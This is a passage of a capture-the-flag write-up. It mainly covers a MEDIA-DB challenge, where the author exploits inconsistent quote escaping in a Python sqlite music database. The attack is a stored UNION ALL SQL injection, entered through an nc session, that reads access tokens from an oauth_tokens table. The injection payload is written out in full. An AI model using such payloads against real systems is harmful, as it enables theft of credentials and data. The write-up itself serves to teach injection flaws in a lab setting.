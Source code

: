 This will reveal the flag *CTF{H3ll0-Kingc0p3}*.

Side note: I needed help for this challenge as I did know very little about UNIX environment variables and what some are capable of.

<a name="mediadb"></a>

## MEDIA-DB (misc)

Through the gatekeeper you are able to access a custom database to organize your music. Your task is to retrieve an access-token from the database.

The script which proxies the access to the database is also accessable by you. It uses an in-memory sqlite database and writes the flag into a table called `oauth_tokens` on start-up.

When skimming through the options you can notice that it does no proper escaping of user input:
```python
artist = raw_input().replace('"', "")
my_print("song name?")
song = raw_input().replace('"', "")
c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
```

Since for some reasons the original author of the script did use different escape tokens (i.e. `"` and `'`) exploiting this becomes fairly simple:

The insert query above only escapes `"` while the other queries use single quotes.

Especially interesting as target is the last option:
```python
artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
my_print("choosing songs from random artist: {}".format(artist))
print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
```

It takes as input an entry from the database and again does no proper escaping. So if we would place a carefully crafted query inside an *artist* column we should be able to retrieve the token quite easily.

In order to append statements to the query our only option is to use `UNION` or `UNION ALL` since the sqlite wrapper will not allow us to specify multiple queries in a single `execute()` call. Since the first query retrieves 2 attributes we have also have to retrieve 2 from `oauth_tokens`. I simply chose the count function:

```sql
' UNION ALL SELECT COUNT(*), * FROM oauth_tokens
```

To complete the query we have to deal with the enclosing single quote. I simply added another query of the first form.

Finally we can run our simple exploit:

```
$ nc media-db.ctfcompetition.com 1337
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
' UNION ALL SELECT COUNT(*), * FROM oauth_tokens UNION ALL SELECT artist, song FROM media WHERE song ='
song name?
Song of my people
1) add song
2) play artist
3) play song
4) shuffle artist
```
